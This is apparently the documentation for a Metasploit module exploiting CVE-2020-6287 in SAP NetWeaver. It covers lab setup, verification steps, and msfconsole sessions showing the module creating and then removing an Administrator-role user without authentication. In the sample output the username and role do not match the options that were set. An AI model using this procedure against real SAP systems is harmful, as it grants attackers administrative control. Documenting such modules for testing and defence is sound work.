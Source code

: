 ## Vulnerable Application

This module leverages an unauthenticated web service to submit a job which will create a user with a specified role. The
job involves running a wizard. After the necessary action is taken, the job is canceled to avoid unnecessary system
changes.

SAP NetWeaver NetWeaver versions 7.30 through 7.50 are affected by this vulnerability. An Amazon Machine Image (AMI) for
Amazon Web Services (AWS) can be used as a testing environment. One such image is provided by Linke IT America LLC and
is available on the [AWS Marketplace][1] with installation instructions posted to their [blog][2].

Once set up and configured, the instances will be vulnerable on the default HTTP port 50000.

If the password does not meet the requirements (e.g. the value is too short), the server will respond with an error
message and the Metasploit module will need to be rerun.

## Verification Steps

  1. Install the application
  1. Start msfconsole
  1. Do: `use auxiliary/admin/sap/cve_2020_6287_ws_add_user`
  1. Set the `RHOST`, `USERNAME`, and `PASSWORD` options
  1. Run the module and wait a few seconds
  1. Once the "PCK Upgrade" job has been canceled, log in with the created credentials

## Options

### ROLE

The role to assign to the user in the system. This value is "Administrator" by default. If the role does not exist, then
execution will fail. For more information on users and roles, see the [SAP documentation][3].

From the documentation:
> Standard UME roles include such actions. The UME role Administrator includes Manage_ All, which enables you to display
> and change everything. By default, administrator roles are only assigned to administrators.

## Scenarios

### SAP NetWeaver 7.50

Example: Adding a new user `metasploit` with the `Administrator` role:

```
msf > use auxiliary/admin/sap/cve_2020_6287_ws_add_user 
msf auxiliary(admin/sap/cve_2020_6287_ws_add_user) > set RHOSTS netweaver.lan
RHOSTS => netweaver.lan
msf auxiliary(admin/sap/cve_2020_6287_ws_add_user) > set USERNAME metasploit
USERNAME => metasploit
msf auxiliary(admin/sap/cve_2020_6287_ws_add_user) > set PASSWORD 0pe3nS3sam3
PASSWORD => 0pe3nS3sam3
msf auxiliary(admin/sap/cve_2020_6287_ws_add_user) > check
[+] 192.168.53.183:50000 - The target is vulnerable.
msf auxiliary(admin/sap/cve_2020_6287_ws_add_user) > set VERBOSE true
VERBOSE => true
msf auxiliary(admin/sap/cve_2020_6287_ws_add_user) > run
[*] Running module against 192.168.53.183

[*] Starting the PCK Upgrade job...
[+] Job running with session id: 3e76e705-4bbd-4a6b-b243-154768287fb0
[*] Received event description: Execution of User Management
[*] Received event description: Create User PCKUser
[+] Successfully created the user account
[*] Received event description: Assign Role SAP_XI_PCK_CONFIG to PCKUser
[+] Successfully added the role to the new user
[*] Canceling the PCK Upgrade job...
[*] Auxiliary module execution completed
msf auxiliary(admin/sap/cve_2020_6287_ws_add_user) >
```

Example: Removing the user `metasploit`:

```
msf > use auxiliary/admin/sap/cve_2020_6287_ws_add_user 
msf auxiliary(admin/sap/cve_2020_6287_ws_add_user) > set RHOSTS netweaver.lan
RHOSTS => netweaver.lan
msf auxiliary(admin/sap/cve_2020_6287_ws_add_user) > set USERNAME metasploit
USERNAME => metasploit
msf auxiliary(admin/sap/cve_2020_6287_ws_add_user) > set PASSWORD 0pe3nS3sam3
PASSWORD => 0pe3nS3sam3
msf auxiliary(admin/sap/cve_2020_6287_ws_add_user) > set ACTION REMOVE
ACTION => REMOVE
msf auxiliary(admin/sap/cve_2020_6287_ws_add_user) > run
[*] Running module against 192.168.53.183

[+] Successfully deleted the user account
[*] Auxiliary module execution completed
msf auxiliary(admin/sap/cve_2020_6287_ws_add_user) >
```

[1]: https://aws.amazon.com/marketplace/seller-profile?id=56cbce49-5486-4a83-a6b7-0fea3841da1b
[2]: https://docs.linkeit.com/amis/catalog/sap_ready_ami_installation_guide_nw750java_susesyb/
[3]: https://help.sap.com/doc/saphelp_nw73ehp1/7.31.19/en-US/4a/6e8a7ab94e4d27e10000000a42189b/frameset.htm
